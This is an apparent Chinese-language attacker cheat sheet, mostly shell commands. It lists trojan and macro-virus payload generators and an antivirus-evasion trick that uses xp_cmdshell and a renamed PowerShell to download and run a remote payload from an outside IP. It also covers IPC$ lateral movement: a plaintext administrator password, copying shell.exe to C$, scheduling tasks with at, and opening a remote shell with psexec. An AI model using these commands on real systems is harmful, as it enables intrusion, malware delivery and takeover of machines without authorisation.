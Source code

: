 

```shell
set-executionpolicy remotesigned    允许执行ps1脚本



HTML Application # 生成(executable/VBA/powershell)这三种原理实现的恶意HTA木马文件
MS Office Macro # 生成office宏病毒文件
Payload Generator # 生成各种语言版本的payload
USB/CD AutoPlay # 生成利用自动播放运行的木马文件
Windows Dropper # 捆绑器能够对任意的正常文件进行捆绑(免杀效果差)
Windows Executable # 生成可执行exe木马
Windows Executable(Stageless) # 生成无状态的可执行exe木马

#Windows 过杀软版
exec xp_cmdshell "where powershell"
exec xp_cmdshell "copy powershell的路径 test.txt"
写个run.bat：内容：
test.txt IEX (New-Object Net.Webclient).DownloadString('http://192.168.21.29:9999/payload.ps1');payload

run.bat
```



## IPC攻击



```sh
net use \\192.168.21.70\ipc$ marmot.4151 /user:administrator

net use /delete \\192.168.21.70\ipc$ #删除连接

dir \\ip\admin$  #查看windows目录     
dir \\ip\c$		#查看c盘
net time \\ip\  #查看时间
copy shell.exe \\ip\c$ #拷贝文件
at \\192.168.x.x 9:50 c:\www\xxx.bat  #设置计划任务
------------------------
连接管理员amdinistrator可看管理员的文件
连接管理员组用户admin


\\ip\c$
139端口 和445端口
传输（命令执行）     认证端口（可连，但是不能执行at....，文件管理）



psservice   不弹窗

psexec.exe /accepteula \\192.168.21.70 -u administrator -p marmot.4151 cmd
```
